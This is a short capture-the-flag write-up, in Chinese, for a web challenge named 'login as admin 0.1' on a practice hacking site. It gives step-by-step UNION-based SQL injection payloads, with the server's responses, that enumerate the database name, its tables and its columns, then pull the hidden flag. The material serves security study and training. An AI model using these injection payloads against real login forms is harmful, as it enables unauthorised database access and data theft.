# inndy web login as admin 0.1
* [題目](https://hackme.inndy.tw/login0/)
1. 用前一題方法進入會得到: 
```
Hi, admin
You are admin!
FLAG{\' UNION SELECT "I Know SQL Injection" #}, flag2 in the database!
```
2. 先看看現在在哪個 database
```
輸入 \'  UNION SELECT 1,DATABASE(),3,4#
得到:
Hi, login_as_admin0
You are admin!
FLAG{\' UNION SELECT "I Know SQL Injection" #}, flag2 in the database!
```
3. 知道 database 為 login_as_admin0 後，看看有那些 table
```
輸入: 
\' UNION SELECT 1, TABLE_NAME, 3, 4 FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA="login_as_admin0"#

得到:
Hi, h1dden_f14g
You are admin!
FLAG{\' UNION SELECT "I Know SQL Injection" #}, flag2 in the database!
```
4. 知道有個 table_name 叫做 h1dden_f14g，看裡面有哪些 column
```
輸入: 
\' UNION SELECT 1, COLUMN_NAME, 3, 4 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA="login_as_admin0" AND TABLE_NAME="h1dden_f14g"#

得到:
Hi, the_f14g
You are admin!
FLAG{\' UNION SELECT "I Know SQL Injection" #}, flag2 in the database!
```
5. 知道有個 column 叫做 the_f14g，把裡面東西拿出來
```
輸入:
\' UNION SELECT 1, the_f14g, 3, 4 FROM h1dden_f14g#
就得到 flag 了
```